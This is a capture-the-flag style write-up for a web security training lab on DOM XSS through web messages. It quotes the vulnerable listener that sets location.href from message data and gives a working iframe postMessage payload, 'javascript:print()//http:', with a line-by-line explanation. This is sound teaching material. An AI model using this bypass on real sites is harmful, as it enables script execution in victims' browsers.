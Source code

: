 # DOM XSS using web messages and a JavaScript URL
# Objective
This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function.

# Solution
## Analysis

Website has `script` that creates `eventListener`.

|![](Images/image-4.png)|
|:--:| 
| *Added event listener - Web messages* |


Vulnerable code:
```js
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

The script above check if data passed via web messages have "http:" or "https:" strings and then sets valou of `location.href`.


## Exploitation
|![](Images/image-5.png)|
|:--:| 
| *Testing basic XSS - provided payload was executed* |
|![](Images/image-6.png)|
| *Final payload* |

Final payload:
```js
<iframe src="https://0ad600c5048b69a287d09d6f001c00cb.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

Explaination:
- `this` - refers to `iframe`.
- `contentWindow` - refers to window object of the `iframe`.
- `postMessage()` - calls web message method.
- `'*'` - specifies the `targetOrigin` - the origin the recipient window must have in order to receive the event. In order for the event to be dispatched, the origin must match exactly. `*` is a wildcard.
- `//http:` - comments out the required string.


